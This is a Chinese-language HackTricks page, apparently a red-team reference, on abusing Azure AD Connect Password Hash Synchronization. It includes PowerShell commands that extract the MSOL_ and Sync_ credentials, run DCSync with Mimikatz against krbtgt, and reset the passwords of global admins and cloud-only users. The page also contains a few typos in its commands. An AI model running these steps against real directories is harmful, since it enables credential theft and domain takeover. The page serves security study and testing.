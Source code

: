 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

**密码哈希同步**是用来实现混合身份验证的登录方法之一。**Azure AD Connect** 将用户密码的哈希的哈希从本地Active Directory实例同步到基于云的Azure AD实例。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司同步本地AD与Azure AD最常用的方法。

所有**用户**和**密码哈希的哈希**都从本地同步到Azure AD。然而，**明文密码**或**原始** **哈希**不会发送到Azure AD。
此外，**内置**安全组（如域管理员等）**不会同步**到Azure AD。

**哈希同步**每**2分钟**发生一次。然而，默认情况下，**密码过期**和**账户** **过期**在Azure AD中**不同步**。所以，一个**本地密码过期**（未更改）的用户可以继续使用旧密码**访问Azure资源**。

当本地用户想要访问Azure资源时，**认证发生在Azure AD上**。

**PHS**对于像**身份保护**和AAD域服务等功能是必需的。

## 转移

配置PHS时，一些**特权账户**会自动**创建**：

* 账户 **`MSOL_<installationID>`** 会自动在本地AD中创建。该账户被赋予**目录同步账户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中拥有**复制（DCSync）权限**。
* 在Azure AD中创建了一个账户 **`Sync_<on-prem ADConnect Server名称>_installationID`**。该账户可以**重置任何用户**（已同步或仅云端）在Azure AD中的密码。

上述两个特权账户的密码**存储在SQL服务器**上，该服务器安装了**Azure AD Connect。**管理员可以提取这些特权用户的明文密码。
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，它包含了本地AD中**`MSOL_*`** 用户的**密码**和AzureAD中**Sync\_\*** 的密码。因此，危及这些信息就可以提升权限到AD和AzureAD。

您可以在[这个演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD connect服务器**

如果**安装了Azure AD connect的服务器**加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过攻破 **`Sync_*`** 账户，可以**重置**任何用户（包括全局管理员）的密码
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
它也可以**仅修改云用户的密码**（即使这是意料之外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储此用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，**同步**用户有权限这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### 无缝单点登录

可以将无缝单点登录与PHS一起使用，这对其他滥用行为是脆弱的。请在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
